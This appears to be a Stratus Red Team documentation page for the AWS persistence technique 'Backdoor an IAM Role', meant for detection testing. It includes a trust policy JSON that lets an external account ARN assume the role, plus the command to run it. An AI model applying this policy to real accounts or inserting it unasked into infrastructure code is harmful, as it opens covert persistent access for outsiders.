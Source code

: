 ```yaml
---
title: Backdoor an IAM Role
---
```


# Backdoor an IAM Role


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an IAM role.

<span style="font-variant: small-caps;">Detonation</span>: 

- Update the assume role policy of the IAM role to backdoor it, making it accessible from an external, fictitious AWS account:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.backdoor-iam-role
```